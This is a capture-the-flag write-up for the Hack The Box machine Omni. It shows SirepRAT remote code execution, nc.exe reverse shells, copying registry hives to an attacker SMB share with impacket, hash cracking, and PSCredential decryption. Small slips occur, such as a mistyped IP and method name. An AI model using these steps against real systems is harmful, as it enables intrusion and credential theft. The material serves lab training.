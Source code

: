 ```yaml
---
layout: post
title: Omni - HTB Writeup
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-02-07
tags: [write up, hackthebox, windows]
categories: [Practice]
toc:  true
---
```


Omni is a Windows box but with the fun twist of being a small IoT device.

## Enumeration

### Nmap

Performing an Nmap scan reveals the following ports open on the remote host.

```shell
# Nmap 7.92 scan initiated Sat Feb  5 09:05:31 2022 as: nmap -sC -sV -p- -o allnmap -v -Pn 10.10.10.204
Nmap scan report for 10.10.10.204
Host is up (0.058s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-title: Site doesn't have a title.
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.92%I=7%D=2/5%Time=61FE849C%P=aarch64-unknown-linux-gn
SF:u%r(NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines
SF:,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xf
SF:b`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\
SF:x1c\xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  5 09:08:31 2022 -- 1 IP address (1 host up) scanned in 180.72 seconds
```

Going to the site at 10.10.10.104:8080 gives us a login site for a site called "Windows Device Portal". This is good information!

Googling for "Windows Device Portal Exploit" (super complicated I know) gives us a result for a tool called [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).

## Exploitation

### Remote Code Execution

Using SirepRAT, we can execute code on the remote machine and receive a remote shell on the target machine!

To begin, we are going to do the tried and trusted http server hosting through Python and upload nc.exe to the victim host.

```shell
sudo python3 -m http.server 80
```

![NCexe](https://mitchelldstein.github.io/assets/images/Omni/UploadNC.png)

Once nc.exe is uploaded to the host we can execute and receive a reverse shell on the victim!

![RCE](https://mitchelldstein.github.io/assets/images/Omni/SirepRAT1.png)

![Shell](https://mitchelldstein.github.io/assets/images/Omni/Shell1.png)

## User Enumeration

We all know the reason we are here, we want flags. Looking through the file system we can find the user directory and perusing through that gives the user flag.

![User Flag](https://mitchelldstein.github.io/assets/images/Omni/FlagUser.png)

This isn't the flag we are expecting.. What is this? Doing some research it to be a PS Credential file which can be decrypted with either the user password or using [Import-Clixml](https://stackoverflow.com/questions/63639876/powershell-password-decrypt). Sadly this user does not have access to use this command. We will need the user password to decrypt the "Password" field.

Looking into how to to get hashes from a local Windows machine I found the registry and system memory hold these passwords. We are going to skip system memory and use the SAM entry to find the hashes we desire.

Impacket-Secretsdump has a very useful `-SAM` option to parse through SAM hive entries. Perfect!

### Gathering Password Hashes

Impacket requires the SAM, security, and system registry entries for this exploit to work.

To get these to our local machine we can load up the Impacket-SmbServer and connect on the victim computer.

On the Kali machine:

```shell
$ impacket-smbserver share . -smb2support -username yo -password yo
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the Windows IoT machine:

```shell
net use \\10.10.14.19\share /u:yo yo
```

![System reg](https://mitchelldstein.github.io/assets/images/Omni/System.png)
![SAM reg](https://mitchelldstein.github.io/assets/images/Omni/Sam.png)
![Security reg](https://mitchelldstein.github.io/assets/images/Omni/Security.png)
![Hashes](https://mitchelldstein.github.io/assets/images/Omni/Hashes.png)

### Cracking Hashes

We will now use John to crack these hashes against rockyou.txt

![John](https://mitchelldstein.github.io/assets/images/Omni/John.png)

Nice! We got the password for the user "app". Using this we can finally log into the web-app side of this machine.

## Web App

With the "app" user, we can use the web-app interface to run commands. Under Processes we can find a Run Command window. We are going to repeat the reverse shell command we used before to get a reverse shell as the app user.

![WebApp](https://mitchelldstein.github.io/assets/images/Omni/WebApp.png)

### App User Shell

This user does have access to use the Import-Clixml command which allows us to decrypt the user flag.

There are two more interesting files in the C:\Data\Users\app directory, **hardening.txt** and **iot-admin.xml**.

**Hardening.txt** does not hold any useful information, just steps for hardening the admin user which already seems to be completed.

Using **Import-Clixml** on iot-admin.xml provides us the administrator password.

![Admin Password](https://mitchelldstein.github.io/assets/images/Omni/AdminPass.png)

### Admin Shell

Going back to the webapp with the new admin password and running a new reverse shell command through the GUI finally provides an windows\system32 shell. Navigating to C:\data\users\administrator and running the following command grants the root flag.

```shell
(Import-Clixml -Path root.txt).GetNetworkCredentials().Password
```
